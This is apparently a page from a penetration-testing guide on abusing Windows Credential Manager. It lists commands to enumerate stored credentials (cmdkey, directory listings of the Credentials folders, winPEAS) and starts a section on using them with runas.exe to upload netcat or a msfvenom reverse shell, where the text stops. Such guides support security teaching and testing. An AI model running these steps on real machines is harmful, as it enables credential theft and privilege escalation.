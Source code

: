 {% hint style="info" %}
`runas.exe` is a handy Windows tool that allows you to run a program as another user as long as you know your password.
{% endhint %}

The Credential Manager, in the "Windows credentials" section, has 3 categories:

* Windows Credentials: can only be used on Windows, and can contain credentials for a user account or service for an interactive session.
* Certificate-Based Credentials: are used in conjunction with smart cards. It is very rare to come across any credentials in this category.
* Generic Credentials: These store credentials from applications such as Microsoft Office, One Drive, Slack, etc.

{% tabs %}
{% tab title="Verification" %}
### Manual

```shell
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

The cmdkey command can be used to create, list and delete stored usernames and passwords. Users may wish to store credentials for a specific host or use it to store credentials for terminal services connections to connect to a remote host using Remote Desktop without the need to enter a password. This can help us move laterally to another system with a different user or escalate privileges on the current host to leverage stored credentials for another user.

![](../../../.gitbook/assets/cmdkey\_list.png)

### GUI

Search "Credential Manager":

![](../../../.gitbook/assets/credentials\_manager.png)

### winPEAS

```
winPEAS.exe quiet cmd windowscreds
```
{% endtab %}

{% tab title="Privilege Escalation" %}
### #1. runas.exe

We can use the saved credential to run any command as that user. We can do several things, such as uploading nc.exe or a malicious reverse shell generated with msfvenom:
